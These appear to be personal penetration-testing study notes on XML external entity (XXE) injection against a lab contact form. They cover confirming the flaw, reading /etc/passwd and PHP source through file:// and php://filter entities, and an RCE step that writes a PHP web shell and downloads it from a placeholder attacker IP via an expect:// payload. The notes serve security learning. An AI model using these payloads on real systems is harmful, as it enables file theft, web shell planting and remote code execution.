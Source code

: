 When a web application trusts unfiltered XML data from user input, we may be able to reference an external XML DTD document and define new custom XML entities. Suppose we can define new entities and have them displayed on the web page. In that case, we should also be able to define external entities and make them reference a local file, which, when displayed, should show us the content of that file on the back-end server.

## Identifying

We can test out this Contact Form
![[Pasted image 20250220194459.png]]

Catching the `POST` request for filling out the form looks like the following
![[Pasted image 20250220194615.png]]

We see that the value of the `email` element is being displayed back to us on the page. To print the content of an external file to the page, we should `note which elements are being displayed, such that we know which elements to inject into`

We can try to define a new entity and then use it as a variable in the `email` element to see whether it gets replaced with the value we defined. We can do this by defining new XML entities and add the following lines after the first line in the XML input
```xml
<!DOCTYPE email [
  <!ENTITY company "Inlane Freight">
]>

&company;
```

Now, we should have a new XML entity called `company`, which we can reference with `&company;`. So, instead of using our email in the `email` element, let us try using `&company;`, and see whether it will be replaced with the value we defined (`Inlane Freight`):

![[Pasted image 20250220194904.png]]

A non-vulnerable web application would display (`&company;`) as a raw value. `This confirms that we are dealing with a web application vulnerable to XXE`.

> [!NOTE] Note
> Some web applications may default to a JSON format in HTTP request, but may still accept other formats, including XML. So, even if a web app sends requests in a JSON format, we can try changing the `Content-Type` header to `application/xml`, and then convert the JSON data to XML with an [online tool](https://www.convertjson.com/json-to-xml.htm). If the web application does accept the request with XML data, then we may also test it against XXE vulnerabilities, which may reveal an unanticipated XXE vulnerability.

### Reading Sensitive Files
Now that we can define new internal XML entities let's see if we can define external XML entities. Doing so is fairly similar to what we did earlier, but we'll just add the `SYSTEM` keyword and define the external reference path after it.

```xml
<!DOCTYPE email [
  <!ENTITY company SYSTEM "file:///etc/passwd">
]>
```

This will let us read `/etc/passwd`

![[Pasted image 20250220195738.png]]

We can view the [File Inclusion](obsidian://open?vault=Penetration%20Testing&file=Root%2FWeb%20Applications%2FFile%20Inclusions%2F~%20Main) sensitive file list to see what else can be viewed/exploited
### Reading Source Code
Another benefit of local file disclosure is the ability to obtain the source code of the web application. This would allow us to perform a `Whitebox Penetration Test` to unveil more vulnerabilities in the web application, or at the very least reveal secret configurations like database passwords or API keys

`the file we are referencing is not in a proper XML format, so it fails to be referenced as an external XML entity`. If a file contains some of XML's special characters (e.g. `<`/`>`/`&`), it would break the external entity reference and not be used for the reference

Mitigate by using PHP wrapper
```xml
<!DOCTYPE email [
  <!ENTITY company SYSTEM "php://filter/convert.base64-encode/resource=index.php">
]>
```

`This trick only works with PHP web applications.`

### RCE
In addition to reading local files, we may be able to gain code execution over the remote server. The easiest method would be to look for `ssh` keys, or attempt to utilize a hash stealing trick in Windows-based web applications, by making a call to our server. If these do not work, we may still be able to execute commands on PHP-based web applications through the `PHP://expect` filter, though this requires the PHP `expect` module to be installed and enabled.

If the XXE directly prints its output 'as shown in this section', then we can execute basic commands as `expect://id`, and the page should print the command output.

```bash
echo '<?php system($_REQUEST["cmd"]);?>' > shell.php
updog -p 80
```

```xml
<?xml version="1.0"?>
<!DOCTYPE email [
  <!ENTITY company SYSTEM "expect://curl$IFS-O$IFS'OUR_IP/shell.php'">
]>
<root>
<name></name>
<tel></tel>
<email>&company;</email>
<message></message>
</root>

```
